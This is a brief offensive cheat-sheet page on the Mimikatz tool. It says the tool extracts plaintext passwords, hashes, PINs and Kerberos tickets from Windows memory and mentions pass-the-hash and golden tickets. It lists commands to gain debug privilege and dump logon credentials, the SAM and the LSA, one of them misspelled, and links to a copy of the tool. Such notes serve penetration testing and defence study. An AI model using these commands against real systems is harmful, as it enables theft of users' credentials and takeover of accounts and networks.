 # Mimikatz

* **Permissions:  SYSTEM / ADMINISTRATOR**

It's now well known to extract plaintexts passwords, hash, PIN code and Kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
privilege::debug // bypass memory protections
sekurlsa::logonpasswds  // dump passwords stored in memory
lsadump::sam  /patch     // dump the SAM
lsadump::lsa  /patch     // dump the LSA
```

* [https://github.com/ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

